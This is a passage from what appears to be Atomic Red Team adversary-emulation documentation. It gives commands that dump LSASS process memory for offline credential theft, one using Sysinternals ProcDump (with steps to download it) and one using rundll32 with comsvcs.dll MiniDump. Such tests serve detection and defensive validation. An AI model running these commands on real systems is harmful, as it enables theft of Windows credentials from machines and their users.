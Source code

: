 
```cmd
#{procdump_exe} -accepteula -ma lsass.exe #{output_file}
```

#### Cleanup Commands:
```cmd
del "#{output_file}" >nul 2> nul
```



#### Dependencies:  Run with `powershell`!
##### Description: ProcDump tool from Sysinternals must exist on disk at specified location (#{procdump_exe})
##### Check Prereq Commands:
```powershell
if (Test-Path #{procdump_exe}) {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
Invoke-WebRequest "https://download.sysinternals.com/files/Procdump.zip" -OutFile "$env:TEMP\Procdump.zip"
Expand-Archive $env:TEMP\Procdump.zip $env:TEMP\Procdump -Force
New-Item -ItemType Directory (Split-Path #{procdump_exe}) -Force | Out-Null
Copy-Item $env:TEMP\Procdump\Procdump.exe #{procdump_exe} -Force
```




<br/>
<br/>

## Atomic Test #2 - Dump LSASS.exe Memory using comsvcs.dll
The memory of lsass.exe is often dumped for offline credential theft attacks. This can be achieved with a built-in dll.

Upon successful execution, you should see the following file created $env:TEMP\lsass-comsvcs.dmp.

**Supported Platforms:** Windows


**auto_generated_guid:** 2536dee2-12fb-459a-8c37-971844fa73be






#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
C:\Windows\System32\rundll32.exe C:\windows\System32\comsvcs.dll, MiniDump (Get-Process lsass).id $env:TEMP\lsass-comsvcs.dmp full
```
